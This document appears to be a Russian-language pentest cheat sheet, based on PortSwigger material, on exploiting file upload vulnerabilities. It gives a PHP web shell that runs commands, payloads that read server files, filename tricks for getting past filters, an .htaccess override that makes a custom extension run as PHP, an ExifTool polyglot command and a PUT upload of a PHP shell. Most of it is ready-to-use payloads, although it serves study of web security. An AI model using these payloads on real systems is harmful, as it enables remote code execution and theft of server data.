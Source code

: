 [File upload vulnerabilities](https://portswigger.net/web-security/file-upload)

# Эксплуатация неограниченной загрузки файлов для развертывания веб-оболочки

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=id HTTP/1.1
```

# Эксплуатация несовершенной проверки загружаемых файлов
## Неправильная проверка типа файла

```
Content-Disposition: form-data; name="image"; filename="exploit.php"
Content-Type: image/jpeg
```

## Предотвращение выполнения файлов в каталогах, доступных пользователю
Веб-серверы часто используют поле `filename` в запросах `multipart/form-data` для определения имени и места сохранения файла.

## Недостаточный черный список опасных типов файлов
Черные списки иногда можно обойти, используя менее известные, альтернативные расширения файлов, которые могут быть исполняемыми, например .php5, .shtml и так далее.

## Переопределение конфигурации сервера
Чтобы Apache выполнял файлы PHP, запрошенные клиентом, разработчики должны добавить следующие директивы в файл `/etc/apache2/apache2.conf`:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Многие серверы также позволяют разработчикам создавать специальные конфигурационные файлы в отдельных каталогах, чтобы переопределить или добавить к одной или нескольким глобальным настройкам. Серверы Apache, например, загружают конфигурацию для конкретной директории из файла `.htaccess`, если таковой имеется. 

Для эксплуатации можно перезаписать этот файл содержимым:

```
AddType application/x-httpd-php .l33t
```

В запросе загрузки файла изменить заголовок:

```
Content-Type: text/plain
```

И загрузить файл `shell.l33t` с хедерами:

```
Content-Disposition: form-data; name="avatar"; filename="shell.l33t"
Content-Type: application/x-httpd-php
```

На серверах IIS с помощью файла `web.config`:

```xml
<staticContent>
	<mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>`
```

## Обфускация расширений файлов
Несколько расширений

```
exploit.php.jpg
```

Символы в конце строки

```
exploit.php.
```

Кодировка URL (или двойная) для точек, прямых и обратных косых черт

```
exploit%2Ephp
```

Точка с запятой или символы нулевого байта, закодированные в URL, перед расширением файла:

```
exploit.asp;.jpg
exploit.asp%00.jpg
```

Если удаление/замена опасных расширений выполняется не рекурсивно:

```
exploit.p.phphp
```

Многобайтовые символы юникода, которые могут быть преобразованы в нулевые байты и точки после преобразования или нормализации юникода. Последовательности типа `xC0 x2E`,` xC4 xAE` или `xC0 xAE` могут быть преобразованы в `x2E`, если имя файла анализируется как строка UTF-8, но затем преобразуются в символы ASCII перед использованием в пути.

## Неправильная проверка содержимого файла
С помощью специальных инструментов, таких как ExifTool, можно легко создать полиглотный файл JPEG, содержащий вредоносный код в своих метаданных:

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" kitten.jpg -o polyglot.php
```

[Статья Bypass File Upload Restrictions](https://medium.com/codex/bypass-file-upload-restrictions-f30c88e1fccb)

## Эксплуатация file upload race conditions
рейс кондишн это жоска

# Эксплуатация уязвимостей загрузки файлов без удаленного выполнения кода
## Загрузка вредоносных сценариев на стороне клиента.
Если можно загружать файлы HTML или изображения SVG, потенциально можно использовать теги `<script>` для создания [хранимых XSS](xss.md).

Обращаем внимание на то, что из-за ограничений [same-origin policy](cors.md) эти виды атак будут работать только в том случае, если загруженный файл будет обслуживаться из того же источника, в который был загружен.

## Эксплуатация уязвимостей при парсинге загруженных файлов
Если кажется, что загруженный файл и хранится, и обслуживается безопасно, в крайнем случае можно попробовать использовать уязвимости, связанные с разбором или обработкой различных форматов файлов. Например, вы знаете, что сервер анализирует файлы на основе XML, такие как файлы Microsoft Office .doc или .xls, это может быть потенциальным вектором для атак [XXE-инъекций](xxe-injection.md).

# Загрузка файлов с помощью PUT
Стоит отметить, что некоторые веб-серверы могут быть настроены на поддержку запросов PUT. При отсутствии соответствующей защиты это может стать альтернативным способом загрузки вредоносных файлов, даже если функция загрузки недоступна через веб-интерфейс:

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

Можно попробовать отправить запросы `OPTIONS` на различные конечные точки, чтобы проверить те из них, которые поддерживают метод `PUT`.